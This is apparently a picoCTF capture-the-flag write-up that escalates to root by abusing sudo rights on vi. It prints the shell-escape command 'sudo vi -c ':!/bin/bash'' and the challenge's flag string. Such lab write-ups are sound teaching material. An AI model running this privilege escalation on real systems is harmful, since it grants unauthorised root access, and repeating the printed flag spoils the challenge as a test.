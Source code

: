 ## Description

>Can you read files in the root file?
>
>Additional details will be available after launching your challenge instance.

-----
This challenge asks us to read a file in the /root directory. Files located here are typically under the highest access protections possible, requiring only root permissions and rejecting any other non-super user.

Firstly, we are required to connect to the challenge machine via ssh:

```
$ ssh picoplayer@saturn.picoctf.net -p PORT
```

The port number is customized to your own launched instances.

Firstly, we can check our own user privileges:
```
picoplayer@challenge:~$ id  
uid=1000(picoplayer) gid=1000(picoplayer) groups=1000(picoplayer)
```
We can see we are not a part of root in any way, uid gid or part of the root group. It is unlikely we can access /root, so it is unsurprising to see we are denied:

```
picoplayer@challenge:/$ cd /root  
-bash: cd: /root: Permission denied
```

We need to find a way to elevate our permissions before we can go here. 

A common approach to elevating privileges is to do super-user actions, through the command `sudo`. Users are often limited in the kinds of sudo actions they can do. We can check what is allowed for our user by typing `sudo -l`:

```
picoplayer@challenge:/$ sudo -l     
Matching Defaults entries for picoplayer on challenge:  
   env_reset, mail_badpass,  
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin  
  
User picoplayer may run the following commands on challenge:  
   (ALL) /usr/bin/vi
```

Notably, we can run `/usr/bin/vi` as any user, including root, as noted by the (ALL). `vi` is a common text editor used to edit files. Since we are interested in reading the contents of a file, opening the file using `vi` is enough to tell us what's inside. 
```
picoplayer@challenge:/$ sudo vi /root/flag.txt
```

However, when we do this we don't see anything? This is because even though we know the location of the flag, we are still guessing if it is called flag.txt or something else. We need a way to explore the contents of the /root directory.

While `vi` has the main purpose of being a text editor, we can also abuse some of it's other features to obtain an interactive terminal session as user root:

```
sudo vi -c ':!/bin/bash'
```

Here, we launch vi with `sudo vi`. With -c flag, we specify a command `:!/bin/bash` for vi to run on launch. 
Alternatively, we can do this ourselves after launching `vi`. Simply typing `:shell` will open a shell session as the current user, in this case, root.

Now we can access /root:
```
root@challenge:~# ls  
root@challenge:~#
```

Typing `ls` shows no file in root? The challenge description mentions reading files in root, so surely something must be here:

```
root@challenge:~# ls -a  
.  ..  .bashrc  .flag.txt  .profile
```

By adding -a flag to `ls` we can see hidden files. There is our flag, under .flag.txt. So, the reason we couldn't find it earlier was because the name was indeed different from what we expected.
We can revisit to see that, once the proper name is supplied, `vi` could have been used to view file contents:
```
picoplayer@challenge:~$ sudo vi /root/.flag.txt
```

```
picoCTF{uS1ng_v1m_3dit0r_021d10ab}  
~
~
```

